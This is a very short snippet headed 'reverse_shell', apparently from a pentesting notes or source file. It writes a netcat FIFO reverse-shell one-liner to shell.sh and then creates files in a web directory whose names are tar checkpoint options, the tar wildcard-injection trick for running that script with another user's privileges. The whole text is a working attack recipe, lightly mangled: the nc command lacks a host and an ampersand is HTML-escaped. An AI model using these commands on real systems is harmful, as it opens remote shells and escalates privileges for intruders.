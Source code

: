 # reverse_shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&amp;1|nc 1234 >/tmp/f" > shell.sh touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" touch "/var/www/html/--checkpoint=1"
